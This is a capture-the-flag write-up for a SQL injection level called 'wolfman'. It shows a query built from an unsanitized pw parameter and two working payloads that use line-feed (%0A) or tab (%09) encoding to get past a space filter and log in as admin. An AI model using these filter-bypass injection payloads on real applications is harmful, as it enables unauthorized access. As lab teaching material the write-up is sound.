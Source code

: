 ```yaml
---
custom_edit_url: null
sidebar_position: 5
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/48346668-4ade-4937-98dc-cd3160cfa815)

We are provided with the SQL query:

```sql
SELECT id FROM prob_wolfman WHERE id='guest' AND pw='{$_GET[pw]}'
```

This level prints out the flag if the `id=admin`. 

However, it also removes all space characters. In order to get around this, we need to use the Line Feed (`%0A`) character.

If we provide the following URI parameter:

```
?pw='%0AOR%0Aid='admin
```

The resultant query becomes:

```sql
SELECT id FROM prob_wolfman WHERE id='guest' AND pw=''
OR
id='admin'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/ea2c6e8d-c9e1-4e5b-80bd-2dfeb29f1c0d)

We can also solvethe challenge by using the Tab (`%09`) character.

If we provide the following URI parameter:

```
?pw='%09OR%09id='admin
```

The resultant query becomes:

```sql
SELECT id FROM prob_wolfman WHERE id='guest' AND pw=''  OR  id='admin'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/94cf381a-1444-4ac4-a8fe-2676109d7164)
